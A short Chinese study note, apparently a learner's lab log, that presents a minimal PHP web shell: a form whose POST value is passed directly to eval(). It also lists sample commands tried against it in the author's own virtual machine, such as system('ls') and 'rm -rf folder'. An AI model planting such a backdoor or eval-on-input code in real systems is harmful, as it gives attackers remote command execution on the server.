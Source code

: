主要的原理就是利用php的eval函数，可以把字符串当成命令来执行
虚拟机上的php代码
``` php
<html>
<body>
<form action = "yijuhua_muma.php" method = "post">
name:<input type:"text" name="value"><br>
<input type = "submit">
</form>
<?php
 $cmd = $_POST[value];
echo "<pre>";
eval ($cmd);
echo "</pre>";
?>
<body>
</html>
```
在物理机上的浏览器访问的时候会出现一个输入框和提交按钮，在输入框里输入要执行的命令，即可，如
>phpinfo(); system("ls"); cat xxx.xx;ifconfig;
好像必须加如最后的分号,要不然执行后没有反应。但是在执行
>mkdir folder ; rm -rf folder 
的时候不成功，难道是只有读的权限没有写入的权限？这些只是最简单的一句话木马，基本上没有什么危害，也就只能在自己的虚拟机里重现。
